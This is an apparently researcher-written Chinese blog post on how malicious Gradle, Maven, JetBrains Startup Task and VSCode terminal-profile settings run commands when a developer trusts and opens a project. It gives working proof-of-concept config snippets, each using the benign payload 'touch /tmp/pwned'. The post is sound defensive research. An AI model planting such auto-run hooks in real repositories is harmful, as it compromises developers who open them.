 ```yaml
---
title: 利用项目配置文件进行 RCE - IDE Trust Project 功能探究
date: 2021-10-02 20:43:33
tags: [misc]
---
```


最近发现在打开 IDEA, VSCode 项目时候, 都增加了 "信任此项目的提示". 结合这些 IDE 的特点, 确实可能存在在打开项目时产生 RCE 的风险, 特别是进行代码审计的安全人员, 会经常打开未知的项目. 正常人肯定不会贸然的执行未知的代码, 但是对于打开项目时这个弹出的框框, 可能并不会特别在意. 接下来分析一些通过这些配置来进行 RCE 的方法.  

![](https://i.loli.net/2021/10/02/ToPQhtryzgDUdCs.png)

<!-- more -->

## IDEA

### Gradle

最先想到的是 java 项目常用的构建工具 gradle. 它的 build 方式不同于 maven 的那种声明式 xml, 而是通过运行一个 build.gradle 脚本, 类似于 python 安装模块时的 setup.py. 我们自然可以通过编写恶意的 build.gradle 脚本来达到 RCE 的目的, 示例如下  

```gradle
plugins {
    id 'java'
}

group 'org.example'
version '1.0-SNAPSHOT'

exec {
    commandLine 'touch', '/tmp/pwned'
}

repositories {
    mavenCentral()
}

dependencies {
    testImplementation 'org.junit.jupiter:junit-jupiter-api:5.7.0'
    testRuntimeOnly 'org.junit.jupiter:junit-jupiter-engine:5.7.0'
}

test {
    useJUnitPlatform()
}
```

其中  
```
exec {
    commandLine 'touch', '/tmp/pwned'
}
```
即是 RCE 的部分, 非常的简单直接  
如果打开 Safe Mode, 是不会运行 build.gradle 的, 保证了用户的安全, 但是如果信任了这个项目, IDEA 就会自动运行 build.gradle  

### Maven

maven 在经过测试后, 似乎 IDEA 并没有真正的运行 `mvn` 命令, 在用户 0-click 的情况下, 似乎只是解析了 pom.xml, 然后下载依赖, 分析 main class, 并没有真正进行 maven 的 lifecycle  
但是如果目标会进行 mvn package 等操作, 我们可以通过 mvn plugin 插件达到 RCE 的目的.  

一个示例如下  
```xml
<plugins>
    <plugin>
    <artifactId>exec-maven-plugin</artifactId>
    <version>3.0.0</version>
    <groupId>org.codehaus.mojo</groupId>
    <executions>
        <execution>
        <id>exec</id>
        <phase>validate</phase>
        <goals>
            <goal>exec</goal>
        </goals>
        </execution>
    </executions>
    <configuration>
        <executable>touch</executable>
        <arguments>
        <argument>/tmp/pwned</argument>
        </arguments>
    </configuration>
    </plugin>
</plugins>
```
`exec-maven-plugin` 是一个现成的执行命令的 mvn plugin, 我们将其制定在 mvn phase = validate 时执行, 这样在目标进行 package 时就会执行 `touch /tmp/pwned` (一个可能受害的场景是打包成 jar 然后复制到 docker 里面运行)  

### IDEA 本身

除了这些常用的 build 工具, IDEA 本身也自带一个 `Startup Task` 功能, 在 `Tools -> Startup Task` 中可以找到, 我们可以自己添加一个 Shell Script 任务. 这些配置会保存在 `.idea/workspace.xml` 中, 并且这个利用方式应该可以给 Jetbrains 全家桶来使用, 会在项目打开时自动运行  

![](https://i.loli.net/2021/10/02/51Hy7hcepfXiGgC.png)  

## VSCode

VSCode 本身功能较少, 大部分功能其实靠插件来实现, 所以我找到最泛用的是替换默认的 Shell 选项, 在 `.vscode/settings.json` 中添加  

```json
{
    "terminal.integrated.defaultProfile.linux": "bash",
    "terminal.integrated.profiles.linux": {
        "bash": {
            "path": "bash",
            "icon": "terminal-bash",
            "args": ["-c", "touch /tmp/pwned; bash"]
        },
        "zsh": {
            "path": "zsh",
        },
        "fish": {
            "path": "fish"
        },
        "tmux": {
            "path": "tmux",
            "icon": "terminal-tmux"
        },
        "pwsh": {
            "path": "pwsh",
            "icon": "terminal-powershell"
        }
    }
}
```

这样打开 vscode 的终端时, 就会无感执行命令  

## 总结

最后, 这些 IDE 丰富的功能确实留下来非常多的攻击面, 对陌生的项目最好好看看再进行 `Trust`. 不然漏洞还没找到, 自己先被对方反杀了.  